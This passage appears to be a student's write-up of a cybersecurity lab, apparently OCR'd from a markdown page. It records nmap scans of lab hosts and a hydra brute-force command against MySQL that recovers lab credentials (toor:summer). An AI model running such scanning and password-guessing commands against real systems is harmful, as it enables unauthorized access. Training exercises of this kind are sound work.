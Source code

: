   ```
        SF:ching_sha2_password\0!\0\0\x01\xff\x84\x04#08S01Got\x20packets\x20out\x
        SF:20of\x20order")%r(HTTPOptions,73,"J\0\0\0\n8\.0\.32\0\+\0\0\0W_3\x20T\x
        SF:0bH9\0\xff\xff\xff\x02\0\xff\xdf\x15\0\0\0\0\0\0\0\0\0\0\+j\x1c\x01`_Jg
        SF:I'\x03\x0e\0caching_sha2_password\0!\0\0\x01\xff\x84\x04#08S01Got\x20pa
        SF:ckets\x20out\x20of\x20order")%r(RTSPRequest,73,"J\0\0\0\n8\.0\.32\0,\0\
        SF:0\0\x0e\x7fAw\x10@\x08O\0\xff\xff\xff\x02\0\xff\xdf\x15\0\0\0\0\0\0\0\0
        SF:\0\0HE\x05\x0eZ%\x14\)d\r%y\0caching_sha2_password\0!\0\0\x01\xff\x84\x
        SF:04#08S01Got\x20packets\x20out\x20of\x20order")%r(RPCCheck,73,"J\0\0\0\n
        SF:8\.0\.32\0-\0\0\0`@\[Q\x14Z\x06\x19\0\xff\xff\xff\x02\0\xff\xdf\x15\0\0
        SF:\0\0\0\0\0\0\0\0\x19\x111\?/,\x0e\x01-M\x02\*\0caching_sha2_password\0!
        SF:\0\0\x01\xff\x84\x04#08S01Got\x20packets\x20out\x20of\x20order")%r(DNSV
        SF:ersionBindReqTCP,73,"J\0\0\0\n8\.0\.32\0\.\0\0\0<6\x02~\x7f\tjm\0\xff\x
        SF:ff\xff\x02\0\xff\xdf\x15\0\0\0\0\0\0\0\0\0\0b\x1eOm0\[\n\x1aUn\x1d\x04\
        SF:0caching_sha2_password\0!\0\0\x01\xff\x84\x04#08S01Got\x20packets\x20ou
        SF:t\x20of\x20order")%r(DNSStatusRequestTCP,73,"J\0\0\0\n8\.0\.32\0/\0\0\0
        SF:\]i\x0b\x15ubLQ\0\xff\xff\xff\x02\0\xff\xdf\x15\0\0\0\0\0\0\0\0\0\0P2<\
        SF:"\x7f8\x06x\x1ft\x19\x19\0caching_sha2_password\0!\0\0\x01\xff\x84\x04#
        SF:08S01Got\x20packets\x20out\x20of\x20order")%r(Help,73,"J\0\0\0\n8\.0\.3
        SF:2\x000\0\0\0TA6\x08M\?\x0fV\0\xff\xff\xff\x02\0\xff\xdf\x15\0\0\0\0\0\0
        SF:\0\0\0\x0008\x01\x7fb\+\x02~vj\x13\x1a\0caching_sha2_password\0!\0\0\x0
        SF:1\xff\x84\x04#08S01Got\x20packets\x20out\x20of\x20order")%r(SSLSessionR
        SF:eq,73,"J\0\0\0\n8\.0\.32\x001\0\0\0Bt@\x15Z\.m9\0\xff\xff\xff\x02\0\xff
        SF:\xdf\x15\0\0\0\0\0\0\0\0\0\0\x0e\x7f\x20\x0f\x0e\|C>Z%Zj\0caching_sha2_
        SF:password\0!\0\0\x01\xff\x84\x04#08S01Got\x20packets\x20out\x20of\x20ord
        SF:er");

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 16.29 seconds
    ```

- What database software is running on the database machine? What version?
  * mysql with version 8.0.32
- brute force database
  * `nmap --script mysql-brute -p 3306 172.30.0.15`-> no valid accounts found
  * `git clone https://github.com/danielmiessler/SecLists.git`
  * `hydra -l toor -P SecLists/Passwords/2020-200_most_used_passwords.txt 172.30.0.15 mysql`
  * toor:summer
- What webserver software is running on web?
  * Apache httpd 2.4.53 ((AlmaLinux))
- Does scanning the DC show you the name of the domain?
  * yes, Domain: insecure.cyb0., Site: Default-First-Site-Name
- Try the -sC option with nmap on the windows 10. What is this option?
  * `nmap -sC 172.30.10.100`
  * runs a set of default scripts against the target
  * ```bash
        osboxes@osboxes:~$ nmap -sC 172.30.10.100
        Starting Nmap 7.80 ( https://nmap.org ) at 2024-08-03 08:43 EDT
        Nmap scan report for 172.30.10.100
        Host is up (0.00025s latency).
        Not shown: 995 closed ports
        PORT     STATE SERVICE
        22/tcp   open  ssh
        | ssh-hostkey:
        |   3072 96:56:49:e7:1d:b0:1c:51:a2:3c:90:b2:f4:5d:6b:0a (RSA)
        |   256 a2:a6:04:d3:5d:bb:07:5f:58:bd:aa:7b:7b:db:7b:9b (ECDSA)
        |_  256 e1:21:5c:82:62:5e:cf:fd:b0:da:54:99:74:33:32:05 (ED25519)
        135/tcp  open  msrpc
        139/tcp  open  netbios-ssn
        445/tcp  open  microsoft-ds
        3389/tcp open  ms-wbt-server
        | rdp-ntlm-info:
        |   Target_Name: insecure
  ```